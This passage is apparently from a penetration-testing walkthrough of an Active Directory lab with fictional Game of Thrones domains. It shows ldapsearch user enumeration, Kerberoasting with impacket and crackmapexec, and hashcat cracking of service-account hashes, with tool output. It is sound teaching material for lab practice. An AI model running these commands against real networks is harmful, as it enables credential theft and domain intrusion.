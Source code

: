 ```shell
ldapsearch -H ldap://192.168.56.12 -D "brandon.stark@north.sevenkingdoms.local" -w iseedeadpeople -b ',DC=essos,DC=local' "(&(objectCategory=person)(objectClass=user))"
```

- On sevenkingdoms.local

```shell
ldapsearch -H ldap://192.168.56.10 -D "brandon.stark@north.sevenkingdoms.local" -w iseedeadpeople -b 'DC=sevenkingdoms,DC=local' "(&(objectCategory=person)(objectClass=user))"
```

## Kerberoasting

- On an active directory, we will see very often users with an SPN set.

- let's find them with impacket

```shell
GetUserSPNs.py -request -dc-ip 192.168.56.11 north.sevenkingdoms.local/brandon.stark:iseedeadpeople -outputfile kerberoasting.hashes
```

```
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
ServicePrincipalName                                 Name      MemberOf                                                    PasswordLastSet             LastLogon                   Delegation  
---------------------------------------------------  --------  ----------------------------------------------------------  --------------------------  --------------------------  -----------
CIFS/winterfell.north.sevenkingdoms.local            jon.snow  CN=Night Watch,CN=Users,DC=north,DC=sevenkingdoms,DC=local  2022-06-29 07:48:32.373101  2022-06-29 10:34:54.308171  constrained 
HTTP/thewall.north.sevenkingdoms.local               jon.snow  CN=Night Watch,CN=Users,DC=north,DC=sevenkingdoms,DC=local  2022-06-29 07:48:32.373101  2022-06-29 10:34:54.308171  constrained 
MSSQLSvc/castelblack.north.sevenkingdoms.local       sql_svc                                                               2022-06-29 07:48:40.248028  2022-06-29 22:54:57.422114              
MSSQLSvc/castelblack.north.sevenkingdoms.local:1433  sql_svc                                                               2022-06-29 07:48:40.248028  2022-06-29 22:54:57.422114
```

All the hashes will be stored on the file kerberoasting.hashes

- we could also do that with cme with the following command :

```shell
cme ldap 192.168.56.11 -u brandon.stark -p 'iseedeadpeople' -d north.sevenkingdoms.local --kerberoasting KERBEROASTING
```

- Now let's try to crack the hashes :

```shell
hashcat -m 13100 --force -a 0 kerberoasting.hashes /usr/share/wordlists/rockyou.txt --force
```

- we quickly get a result with rockyou :
